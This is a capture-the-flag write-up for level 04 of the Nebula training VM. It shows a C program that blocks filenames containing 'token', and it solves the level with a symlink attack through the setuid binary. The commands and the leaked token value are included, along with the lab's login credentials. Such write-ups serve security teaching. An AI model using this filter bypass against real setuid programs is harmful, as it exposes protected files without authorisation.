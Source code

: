 ```yaml
---
author: Josh Genao
Date: 2023-01-02
Category: #symlink
Tags: #symlinkattack
---
```


# Level-04
## Description
This level requires you to read the **token** file, but the code restricts the files that can be read. Find a way to bypass it :)

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

## Setup
SSH into the Nebula VM using the following credentials:

```
username: level04
password: level04
```
## Summary
The program reads in and outputs the contents of whatever file is passed into the first argument. The program restricts the `token` file located in the `/home/flag04` by comparing the argument with the substring "token" .

We can bypass this check by doing a symlink attack in which will allow us to get permissions to the `/home/flag04/token` file. 

This can be done doing the following:

```
level04@nebula:~$ ln -s /home/flag04/token exploit
level04@nebula:~$ cd /home/flag04/
level04@nebula:/home/flag04$ ./flag04 /home/level04/exploit
06508b5e-8909-4f38-b630-fdb148a848a2
```
Running the flag04 application gives us a string of characters. This can be used as the password for flag04 user.
## Flag
![](../imgs/Pasted%20image%2020230102220317.png)
## References
[^1]: https://www.exploit-db.com/papers/13199
